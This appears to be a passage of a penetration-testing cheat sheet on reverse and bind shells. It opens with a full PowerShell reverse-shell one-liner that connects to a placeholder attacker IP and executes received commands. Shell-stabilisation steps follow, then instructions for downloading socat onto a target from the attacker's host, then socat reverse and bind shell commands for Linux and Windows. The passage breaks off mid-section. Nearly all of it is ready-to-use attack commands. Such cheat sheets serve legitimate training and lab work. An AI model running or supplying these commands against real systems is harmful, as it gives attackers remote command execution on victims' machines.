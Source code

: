     powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
### Shell stabilisation
#### Python:
    python -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm
    CTRL+Z  (to background the shell)
    stty raw -echo; fg (on attacker's shell)
    (reset to enable attacker's shell back)
#### rlwrap:
    rlwrap nc -lvnp <port>
#### Socat:
Use shell to download: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true <br>
Then execute it on linux target.<br>
On windows, instead of curl or wget, use:

    Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
#### Terminal size for text editors...
On attacker's shell:

    stty -a (note the values of "rows" and "columns"
On reverse/bind shell:

    stty rows <number>
    stty cols <number>
## Socat
### Basic shell
#### Listen from attacking device (basic shell)
    socat TCP-L:<port> - (reverse)
    socat TCP:<TARGET-IP>:<TARGET-PORT> - (bind)
#### Send a shell from target device (basic shell)
    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes (reverse Windows)
    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li" (reverse Linux)
    socat TCP-L:<PORT> EXEC:"bash -li" (bind Linux)
    socat TCP-L:<PORT> EXEC:powershell.exe,pipes (bind Windows)   
#### Listen from attacking device (very stable shell)
    socat TCP-L:<port> FILE:`tty`,raw,echo=0  
#### Send a shell from target LINUX device (very stable shell)
First download: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true on the target machine, then: <br>
    